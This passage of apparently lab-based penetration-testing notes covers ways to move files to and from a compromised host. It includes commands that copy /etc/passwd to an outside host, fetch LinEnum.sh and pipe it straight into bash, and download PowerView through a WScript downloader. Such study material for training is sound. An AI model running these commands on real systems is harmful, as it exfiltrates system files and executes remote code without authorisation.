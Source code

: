 `[!bash!] ruby -run -ehttpd . -p8000`

Victim

`[!bash!] wget 192.168.49.128:8000/filetotransfer.txt`

## SCP UPLOAD

`[!bash!] scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`

# **Transfering Files with Code**

`XeroCyb3r@htb[/htb] python2.7 -c 'import urllib;urllib.urlretrieve ("<Target File Url>", "LinEnum.sh")'`

`XeroCyb3r@htb[/htb] python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

`XeroCyb3r@htb[/htb] php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

`XeroCyb3r@htb[/htb] php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`

`XeroCyb3r@htb[/htb] php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

`XeroCyb3r@htb[/htb] ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

`XeroCyb3r@htb[/htb] perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

### JavaScript

{% highlight jsx %}
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
{% endhighlight %}

- Save to **wget.js**

`C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

### VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.
